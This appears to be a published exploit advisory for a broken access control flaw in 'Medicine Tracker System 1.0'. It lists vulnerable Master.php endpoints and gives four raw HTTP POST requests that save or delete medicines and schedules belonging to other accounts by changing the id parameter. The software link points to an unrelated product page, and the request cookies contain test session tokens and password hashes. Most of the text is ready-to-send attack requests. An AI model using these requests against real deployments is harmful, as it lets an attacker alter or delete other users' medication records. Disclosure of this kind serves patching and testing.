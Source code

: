 # Exploit Title: Medicine Tracker System 1.0 - Broken Access Control Exploit

It leads to Update, Delete other schedules, medicines via id of other account

### Date: 
> April 15, 2023


### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Medicine Tracker System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### Broken Authentication:
> Broken Access Control is a type of security vulnerability that occurs when a web application fails to properly restrict users' access to certain resources and functionality. Access control is the process of ensuring that users are authorized to access only the resources and functionality that they are supposed to. Broken Access Control can occur due to poor implementation of access controls in the application, failure to validate input, or insufficient testing and review.

# Tested On: Windows 10, XAMPP

### Affected Page:
> classes/Master.php?f=save_schedule
\
> classes/Master.php?f=delete_schedule
\
> classes/Master.php?f=delete_medicine
\
> classes/Master.php?f=save_medicine 

> On these page, application isn't verifying the authorization mechanism. Due to that, all the parameters are vulnerable to broken access control and any account will change other content via ID

### Description:
> Broken access control allows low privilege attacker to change, delete schedule,medicine content of all application users

### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page change/delete schedule,medicine 
2. Send request to repeater of burpsuite and change ID


4. Request:
```
POST /php-mts/classes/Master.php?f=save_medicine HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 192
Origin: http://localhost
Connection: close
Referer: http://localhost/php-mts/app/?page=medicines/manage_medicine&id=2
Cookie: eid=1; remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; table-page-size=50; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; PHPSESSID=e67hpqdmcqi2k65669nv8cagm3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=CHANGE_HERE&name=Medicine+102&description=Donec+elementum+bibendum+iaculis.+Suspendisse+ultricies+pellentesque+mi+eget+mattis.+Sed+velit+dolor%2C+pulvinar+vitae+scelerisque+varius%2C+congue+id+sapien

```

```
POST /php-mts/classes/Master.php?f=delete_medicine HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 4
Origin: http://localhost
Connection: close
Referer: http://localhost/php-mts/app/?page=medicines
Cookie: eid=1; remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; table-page-size=50; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; PHPSESSID=e67hpqdmcqi2k65669nv8cagm3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=CHANGE_HERE

```

```
POST /php-mts/classes/Master.php?f=delete_schedule HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 4
Origin: http://localhost
Connection: close
Referer: http://localhost/php-mts/app/?page=schedules/view_details&id=7
Cookie: eid=1; remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; table-page-size=50; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; PHPSESSID=e67hpqdmcqi2k65669nv8cagm3
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=CHANGE_HERE
```


```
POST /php-mts/classes/Master.php?f=save_schedule HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 133
Origin: http://localhost
Connection: close
Referer: http://localhost/php-mts/app/?page=schedules/manage_schedule&id=8
Cookie: eid=2; download_started=0; plupload_ui_view=thumbs; PowerBB_username=tuanth; PowerBB_password=32298fc135b3fecf012a4c27efbba188; jstree_select=1; PHPSESSID=tkq3kpibi0iflud0k7oa1v8hfi
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

id=8&user_id=4&medicine_id=7&day%5B%5D=Monday&date_start=0003-11-19&until=&lifetime_schedule=on&remarks=SSSSSSSSSSS&time=22%3A02%3A00

```

